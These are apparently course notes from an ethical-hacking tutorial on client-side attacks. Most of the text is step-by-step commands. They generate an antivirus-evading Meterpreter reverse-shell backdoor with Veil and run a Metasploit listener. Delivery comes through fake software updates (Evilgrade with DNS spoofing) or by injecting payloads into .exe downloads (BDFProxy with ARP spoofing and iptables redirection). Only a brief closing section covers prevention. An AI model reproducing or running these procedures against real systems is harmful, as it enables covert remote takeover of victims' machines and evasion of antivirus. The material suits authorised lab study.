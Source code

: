 # Gaining access — client side attack
-   used if server-side attacks are not possible
-   requires user interaction
-   social engineering and information gathering is really helpful here

## Generate payload (in this case backdoor) with Veil framework
-   hard to create not traceable by antivirus program
-   install Veil on Kali with file `install-veil` in folder attachments or use these commands:
```bash
apt update
apt install -y veil
/usr/share/veil/config/setup.sh --force --silent
```
```bash
veil # start veil
```
-   it is important to keep veil up to date, so use the update often
-   2 main tools in Veil:
    1)  Evasion
        -   generates undetectable backdoors
    2)  Ordnance
        -   generates payloads, which are used by Evasion
        -   part of the "evil" code (reverse connection, downloads and executes file in bg, ...)
```bash
use 1 # uses Evasion tool
list # see all the available payloads
```
-   Meterpreter payloads designed by Metasploit. It runs into memory and it allows to migrate between system processes. For example to run from explorer process. So it is hard to detect.
    -   rev tcp/http/https => reverse connection (target connects to attacker), hard to detect in firewall, looks like user connects to website.

```bash
use 15 # use the payload go/meterpreter/rev_https.py, now configure the required options:
set LHOST 192.168.72.129
set LPORT 8080
set PROCESSORS 1 # not needed, uses only one processor
set SLEEP 6 # not needed, waits 6s before running the code
generate # generates the backdoor, will generate exe file, source code and handlers in displayed location
```
-   check detectability by antivirus programs by no distribute currently down, check alternatives like [kleenscan](https://kleenscan.com/index), <strong>just keep in mind that if virustotal will be used, it will share the results with antivirus programs.</strong>

### Prepare to listen for incoming connection from created payload (backdoor)
-   as mentioned the payload is generated by Metasploit, so use the metasploit to track it:
```bash
msfconsole
use exploit/multi/handler # use module which enables to listen to incoming connections
show options
set PAYLOAD windows/meterpreter/reverse_https # set the payload that was sellected before when generating it (in our case use 15 = go/meterpreter/rev_https.py)
set LHOST 192.168.72.129
set LPORT 8080
exploit # now if anybody opens the backdoor, it will come to this pc...
```

### Backdoor delivery method 1 — spoofing sw update
-   one way how to deliver previously crafted payload to the victim machine
-   can be done only as MITM
-   when we (attacker) get a request for update (can be only checking for update), we will catch this packet and reply with our backdoor payload
-   used tool <strong>Evilgrade</strong> (can be installed, current location `/opt/evilgrade/`)

-   first create http payload
```bash
veil
use 1
list
use 14
set LHOST 192.168.72.129
set LPORT 8080
generate # name it backdoor
exit # close veil
```
-   in 1st bash:
```bash
cd /opt/evilgrade
./evilgrade
show modules # show all the available modules that can be hijacked (these are programs like safari, VMware, virtual box etc.)
configure dap # choosing one module
show options # see all options that can be set
set agent /var/www/html/evil_files/backdoor.exe # set payload which we want victim to download (in our case it is the backdoor created previously)
set endsite speedbit.com #set website to display after the update finishes
start
```
-   open 2nd cmd for dns spoofing
```bash
bettercap -iface eth0 -caplet Documents/arp_spoof.cap # run bettercap with spoofing from MITM lecture (file arp_spoof.cap is in the folder attachments) => create MITM
set dns.spoof.all true # dns spoof to give any request to our update as described in MITM
set dns.spoof.domains update.speedbit.com # set our update page which was shown in first bash
dns.spoof on
```
-   open 3rd cmd and start listening incoming connection coming from the backdoor
    -   create reverse http, https doesn't work with https (some bug, might work in future)
```bash
msfconsole
use exploit/multi/handler # use module which enables to listen to incoming connections
set PAYLOAD windows/meterpreter/reverse_http
set LHOST 192.168.72.129
set LPORT 8080
exploit # now if anybody opens the backdoor, it will come to this pc...
```

-   To test it on victim windows machine download and install Download accelerator plus, in top bar click on "Help" and "Update now"
-   After finishing the update, we will have full control over the victim windows machine's cmd

### Backdoor delivery method 2 — backdooring exe downloads
-   backdoor any .exe downloads from victim machine
-   again, need to be MITM
-   tool used is <strong>Backdoor factory proxy</strong> (install location `/opt/BDFProxy`)
    -   bdf_proxy will use payload defined inside configuration file, and it will attach them inside the .exe files. So the programs look normal, but the program includes the payload
    -   modify configuration file `bdf_proxy.cfg`
        -   find definition of these variables and change the initial values:
        1)  proxyMode = transparent
        2)  find section with definitions for operating systems:
            -   change HOST = your.ip.address
-   after previous modification:

-   1st cmd, start bdf_proxy:
```bash
cd /opt/BDFProxy/
./bdf_proxy.py
```

-   2nd cmd, start ARP spoofing with predefined arp_spoof.cap
```bash
bettercap -iface eth0 -caplet Documents/arp_spoof.cap # run bettercap with spoofing from MITM 
```

-   3rd cmd, connect bdf_proxy with incoming data from ARP spoofing using firewall rule (redirect all the incoming data to bdf_proxy) and start listening incoming connection coming from the backdoor using the resource file from bsd_proxy (after running bsd_proxy in 1st bash, it is generated and shown inside the bash)
```bash
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080 # set the firewall rule for redirection
# now start the listening:
msfconsole --resource /opt/BDFProxy/bdfproxy_msf_resource.rc # after some session will be opened by backdoor press Enter
sessions -l  # show available sessions
sessions -i 1 # get inside the session no.1
```

- now on victim machine try to download any exe file and run it 

## Prevention against MITM attacks:
-   ensure you are not MITM (look on the end of MITM lecture)
    -   use tool like xarp
    -   use static tables
    -   don't use untrusted or unknown networks
-   use https pages -> not possible to backdoor https packets on fly or make fake updates
-   check file's MD5 checksum after download
    -   usually provided file has MD5 check sum. There are tools for win and linux to do the check
    -   example for windows:  [https://www.winmd5.com/](https://www.winmd5.com/)